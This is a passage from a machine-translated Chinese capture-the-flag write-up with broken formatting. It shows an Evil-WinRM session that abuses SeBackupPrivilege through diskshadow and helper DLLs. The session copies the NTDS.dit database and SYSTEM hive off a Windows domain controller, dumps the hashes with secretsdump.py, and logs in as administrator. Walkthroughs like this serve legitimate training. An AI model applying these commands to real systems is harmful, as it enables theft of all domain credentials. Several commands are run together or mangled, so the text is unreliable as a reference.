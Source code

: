 ****我上传了文本文件并执行了下面的命令，如上面链接的文章所述。****

```
***Evil-WinRM* PS C:\Users\xyan1d3\Documents> upload back_script.txt*Evil-WinRM* PS C:\Users\xyan1d3\Documents> mkdir C:\tmp*Evil-WinRM* PS C:\Users\xyan1d3\Documents> diskshadow /s back_script.txt*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeUtils.dll

*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeCmdLets.dll

*Evil-WinRM* PS C:\tmp> import-module .\SeBackupPrivilegeUtils.dll

*Evil-WinRM* PS C:\tmp> import-module .\SeBackupPrivilegeCmdLets.dll

*Evil-WinRM* PS C:\tmp> copy-filesebackupprivilege h:\windows\ntds\ntds.dit C:\tmp\ntds.dit -overwrite*Evil-WinRM* PS C:\temp> reg save hklm\system c:\temp\system*Evil-WinRM* PS C:\temp> download ntds.dit
*Evil-WinRM* PS C:\temp> download system**
```

****一旦我有了 **ntds.dit** 和**系统**文件，我就可以使用“***secrets dump . py***”来检索散列。****

```
**python3 secretsdump.py -system system -ntds ntds.dit LOCAL**
```

****这为管理员的帐户提供了散列。我现在可以使用 **evil-winrm** 作为管理员登录。我可以看到带有标志的 PS credential PowerShell "***root . XML***"文件，但在尝试读取该文件时出现错误。****

****![](img/34c8b05318bd79e8186d5bad10d1d90b.png)****

****PSCredential PowerShell 错误。****

****查看“ ***root.xml*** ”的内容，我可以看到编码的标志。使用 CyberChef，我可以看到该文件的标志是十六进制编码，解码它给我的标志。****

****![](img/adcc1a4e04fdeb74229156033f2c1a14.png)****
